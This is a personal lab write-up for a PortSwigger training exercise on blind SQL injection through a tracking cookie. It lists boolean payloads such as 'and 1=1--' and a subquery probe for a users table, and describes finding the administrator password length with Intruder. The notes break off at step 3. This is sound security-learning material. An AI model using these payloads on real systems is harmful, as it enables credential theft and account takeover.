 # Blind SQL injection with conditional responses
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as `UNION` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses.


### Used Payload

first get to know about vulnerable parameter

check with conditions

then get length of password with numbers attack from intruder
![[Pasted image 20240506222844.png]]

length is different at 20 which means password is =20 because we used query pass>20




### Notes
Lab 11 - Blind SQL injection with conditional responses

Vulnerable parameter - tracking cookie

End Goals:
1) Enumerate the password of the administrator
2) Log in as the administrator user

Analysis:

1) Confirm that the parameter is vulnerable to blind SQLi

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back message

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=1--'
-> TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=0--'
-> FALSE -> no Welcome back

2) Confirm that we have a users table

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'
-> users table exists in the database.

3) Confirm that username administrator exists users table
